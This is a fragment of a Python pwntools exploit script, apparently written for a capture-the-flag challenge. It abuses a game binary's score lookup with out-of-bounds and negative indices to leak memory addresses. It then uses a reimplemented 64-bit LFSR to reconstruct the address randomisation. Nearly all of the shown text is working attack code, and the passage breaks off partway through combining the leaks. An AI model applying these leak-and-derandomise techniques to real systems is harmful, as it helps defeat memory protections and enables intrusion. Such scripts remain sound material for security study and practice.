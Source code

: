 ```python
else:
  p = process(exe.path)


def sa(s, d):
        p.sendafter(s, str(d).encode('utf-8'))
def sla(s, d):
	    p.sendafter(s, str(d).encode('utf-8')+b'\n')
        
def see_score(place):
        sla(b'?\n', 3)
        if (place < 0):
                place = place + 0x10000000000000000
        sla(b'?', place)
        p.recvuntil(b': ')
        leak = int(p.recvline().strip(), 10)
        return leak

# play a certain rounds of game
def play_game(rounds):
        sla(b'?', 1)		# choose play game
        for i in range(rounds):
                num1 = int(p.recvuntil(b' + ', drop=True).split(b'much is ')[1], 10)
                num2 = int(p.recvuntil(b' ', drop=True), 10)
                sla(b'?', num2 + num1)
        sla(b'?', 0)		# send wrong answer

# LFSR 64bit implementation
def rand_get_bit():
  global rand_state
  bit = (rand_state>>63)&1
  v1 = ((rand_state>>61)&1) ^ bit
  v2 = ((rand_state>>60)&1) ^ v1
  v3 = v2 ^ ((rand_state>>58)&1) ^ 1
  rand_state = ((rand_state<<1) | v3) & ((1<<64)-1)
  return (v3 & 1)

# return numbits of pseudo randomness
def rando(numbits):
  res = 0
  for i in range(numbits):
    res = (res<<1) | rand_get_bit()
  return res

# leak memory zone mappings (and so 72 bits of LFSR output)
leak1 = see_score(0x200) - 0x2060
print("LEAK1: " + hex(leak1))
leak2 = see_score(-1017) - 0x1000
print("LEAK2: " + hex(leak2))
leak3 = see_score(-1019) - 0x1000
print("LEAK3: " + hex(leak3))
leak4 = see_score((leak3 - leak1 - 0x2000 + 8)>>3) - 0x119c
print("LEAK4: " + hex(leak4))
leak5 = see_score((leak3 - leak1 - 0x2000 + 0x2000)>>3) - 0x1000
print("LEAK5: " + hex(leak5))
leak6 = see_score((leak4 - leak1 - 0x2000 + 0x38)>>3) - 0x10ba
print("LEAK6: " + hex(leak6))

# reorder 12bits output from each ASLR to a 64bit value
leaks = (leak1>>28)
leaks = (leaks<<12) | (leak6>>28)
leaks = (leaks<<12) | (leak2>>28)
leaks = (leaks<<12) | (leak4>>28)
```